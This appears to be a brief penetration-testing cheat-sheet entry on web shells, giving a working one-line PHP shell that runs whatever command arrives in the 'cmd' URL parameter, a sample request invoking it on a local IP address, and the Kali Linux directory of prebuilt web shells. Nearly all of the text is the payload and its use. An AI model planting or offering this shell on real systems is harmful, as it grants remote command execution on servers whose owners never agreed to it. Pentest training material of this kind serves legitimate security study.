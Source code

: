# Webshell

## Basic cmd-shell

This code can be injected into pages that use php.
```
<?php system($_GET['cmd']); ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```


You have access to different kinds of webshells on Kali here:
```
/usr/share/webshells
```

http://www.binarytides.com/web-shells-tutorial/
